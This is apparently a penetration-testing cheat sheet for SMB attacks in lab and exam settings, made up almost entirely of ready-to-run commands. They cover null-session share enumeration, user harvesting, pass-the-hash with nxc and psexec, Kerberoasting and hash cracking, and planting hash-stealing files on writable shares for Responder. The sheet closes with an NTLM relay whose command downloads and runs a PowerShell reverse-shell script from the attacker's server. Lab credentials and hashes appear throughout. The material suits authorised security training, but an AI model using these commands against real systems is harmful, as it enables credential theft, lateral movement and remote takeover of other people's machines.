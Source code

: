 anonymous session/ list shares
```
smbclient -L \\10.129.235.244
```

null session/list shares
```
smbclient -L \\192.168.1.1 -N
```

null session/specific share
```
smbclient \\\\192.168.1.1\\ADMIN$ -N
```

no creds, need users
```
lookupsid.py vulnnet-rst.local/guest@10.10.111.177
```
output just user list:
```
lookupsid.py flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

if found creds:
```
smbclient.py oscp.exam/web_svc:Diamond1@10.10.159.146
```
- if can't download file or something, try this:
```
smbclient //10.129.139.85/HR -U ''
```
- password prompt after command is run
if user has access to ADMIN$ share, psexec.py will work
```
psexec.py oscp.exam/fmcsorley:CrabSharkJellyfish192@10.10.138.152
```

spray (hash):
```
nxc smb 10.10.126.146-148 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5'
```

if pwned, execute commands:
```
nxc smb 10.10.126.146 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5' -x 'type C:\Users\Administrator\Desktop\proof.txt'
```

shell:
```
smbexec.py MS02/administrator:hghgib6vHT3bVWf@10.10.138.154
```
```
psexec.py oscp.exam/administrator@10.10.138.152 -hashes '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5
```

Gained initial access, but want hashes to service accounts:
```
GetUserSPNs.py -dc-ip 10.10.159.146 -request -outputfile hashes oscp.exam/web_svc:"Diamond1"
```
crack hashes
```
hashcat -m 13100 <hashes-file> /path/to/wordlist
```
pass the hash:
```
nxc smb 10.10.126.146-148 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5'
```

list all files in smb
```
nxc smb 10.10.148.132 -u 'guest' -p '' -M spider_plus && cat /tmp/nxc_hosted/nxc_spider_plus/10.10.148.132.json
```

list all shares and top level folders
```
smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.129.78.4 -r
```

list shares and specific folder contents
```
smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.129.78.4 -r Users/SVC_TGS/Desktop
```

if *write* access to any empty share, worth trying to upload malicious files:
- can tell if shares have write access from `nxc smb 10.129.228.120 -u svc_apache -p 'S@Ss!K@*t13' --shares`
```
python ntlm_theft.py --generate all --server <kali ip> --filename dank
```
- create malicious files
`sudo responder -I tun0`
- start responder
`smbclient //flight.htb/shared -N`
- connect to empty share (null session in example above)
- `prompt false`
	- prevents being asked to upload files (neccesary)
- `mput *`
	- uploads all files in current directory
	- run from 'dank' directory created with `ntlm_theft.py`
wait for responder to receive ntlm2 hash and crack with hashcat:
```
hashcat -m 5600 -a 0 -o cracked.txt --force hash.txt /usr/share/wordlists/rockyou.txt
```

if run into STATUS_PASSWORD_MUST_BE_CHANGED with nxc, use command:
```
smbpasswd -U BABY/caroline.robinson -r 10.10.91.158
```
- to change password

write access to smb share, try uploading:
```
sudo python3 /opt/hashgrab.py 10.13.64.37 test
```
- IP is tun0 on my kali
- start smb server `smbserver.py smb share/ -smb2support`
- via smbclient.py `smbclient.py narasec/guest:''@192.168.195.30` upload file via `put test.lnk` to `/Documents` or something similar
- should see hash in smb server


***NTLM Relay over SMB***
```
sudo sed -i "s/SMB = On/SMB = Off/" /usr/share/responder/Responder.conf
```
- turn off smb in responder (so doesnt conflict with ntlmrelayx)
- switch back to On to re-enable afterwards  `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf`
```
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
```
- create list of IPs from subnet with smb signing disabled so can be used to relay, saved as file relayTargets.txt in current directory
```
sudo responder -I tun0 
```
- start responder
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support
```
- output might show Administrator local SAM hash, if session relayed has privileged access on the target machine. if nothing useful in output, try command execution:
```
cp /home/daniel/Downloads/nishang-master/Shells/Invoke-PowerShellTcp.ps1 .
```
- copy Invoke-PowerShellTcp.ps1 to current directory
```
python3 -m http.server 8000
```
- serve Invoke-PowerShellTcp.ps1 on a http server
```
rlwrap -cAr nc -lnvp 7331
```
- catch the rev shell
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```
- assumes my IP is 172.16.117.30